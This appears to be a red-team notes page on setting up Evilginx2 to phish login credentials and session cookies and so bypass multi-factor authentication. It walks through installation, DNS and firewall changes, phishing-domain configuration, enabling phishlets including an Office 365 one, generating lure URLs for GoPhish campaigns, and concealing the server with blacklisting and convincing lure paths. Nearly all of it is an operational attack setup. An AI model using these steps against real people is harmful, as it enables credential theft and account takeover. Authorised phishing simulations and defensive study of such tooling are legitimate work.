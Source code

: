# Evilginx - MFA Bypass

## Evilginx

{% embed url="https://github.com/kgretzky/evilginx2" %}

> **Evilginx** is a man-in-the-middle attack framework used for phishing login credentials along with session cookies, which in turn allows to bypass 2-factor authentication protection.

#### Installation

```bash
git clone https://github.com/kgretzky/evilginx2.git

cd evilginx2/

go build
```



## DNS Fixes

Evilginx use the port 53, for this reason we can stop any service that run in this port.

**Check if the port is used**

```bash
sudo lsof -i :53
```

**Stop the systemd-resolved service** if it's running.

```bash
sudo systemctl stop systemd-resolved.service
```

Recreate the /etc/resolv.conf file for the evilginx tool.

```bash
sudo rm /etc/resolv.conf

sudo nano /etc/resolv.conf
```

Insert this new content in the resolv.conf file.

```
nameserver 1.1.1.1
nameserver 8.8.8.8
```

Save the file and exit

Create a firewall rules that open the port 53 to all internet.

**Test DNS by doing:**

```bash
ping google.com
```



## Run and Setup Evilginx

Change the GoPhish configuration

```
cd gophish/
sudo config.json
```

Change the `listen_url` field port from `443` to `8080` becouse evilginx will use that port. And then restart gophish service.

```bash
sudo systemctl stop gophish.service
sudo systemctl start gophish.service
```

Enter in the evilginx directory and open tmux session to start the tool

```bash
cd evilginx/
tmux

sudo ./evilginx2
```

Setup our phishing domain and phishing server public IP on evilginx

{% code title="evilginx console" %}
```
config domain phishingdomain.com
config ipv4 external <IPV4>
```
{% endcode %}



## Setting Up Domains for Phishlets

**Ensure your firewall rules for port 443, port 53 (TCP/UDP), port 80 are open to the internet (0.0.0.0/0)**

Check your phishlet file to see all of the "phish\_sub" parameters

```bash
cd evilginx2/phishlets
cat example.yaml # or other phishlets file
```

**Setup a DNS "A Record" for all subdomains of the phishlet (academy subdom for the example phishlet)**\


**Run Phishlet and configure the phishlet**

```bash
tmux
sudo ./evilginx2

phishlets hostname <phishletName> <mydomain.com>
phishlets enable <phishletName>
```

<figure><img src="../../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

**Create a lure:**

```
lures create <phishletName>
lures get-url <idOfLure>
```

<figure><img src="../../../../.gitbook/assets/image (15).png" alt="" width="375"><figcaption></figcaption></figure>



## Running a Custom Phishlet

To run a custom phishlet we have to run evilginx2 and then follow next commands

1. Find a phishlet for the service that we want use from github

{% embed url="https://github.com/ArchonLabs/evilginx2-phishlets/tree/master/phishlets" %}

2. Copy the .yaml content of the chose phishlet from github in the `evilginx2/phishlet` directory.

```bash
nano o365.yaml
```

3. Populate DNS "A records" for all phishlet subdomains (highlights in the next screenshot).

<figure><img src="../../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

4. Restart evilginx2, give to the new phishlet a hostname and enable this new phishlet.

```
sudo ./evilginx2

: phishlets hostname <phishletName> domain.com
: phishlets enable <phishletName> 
```

5. Create a lures with new phishlet

```
lures create <phishletName> 
lures get-url <idOfLure>
```

The output of the last command is the URL to use in a phishing campaign.

## Integration with GoPhish

When we have a lures URL, we can put it in the URL field when we create a new campaign on GoPhish.

<figure><img src="../../../../.gitbook/assets/image (11).png" alt="" width="350"><figcaption></figcaption></figure>



## Protecting Evilginx <a href="#lecture_heading" id="lecture_heading"></a>

#### Blacklist function

Black list function is used to block all user that not access via phishlet to the domain.

{% code title="evilginx2 console" %}
```
blacklist all
```
{% endcode %}



#### Change Lures Path

Change the default lures path with a name more credible.

```
lures edit <luredId> path <newpath>
```

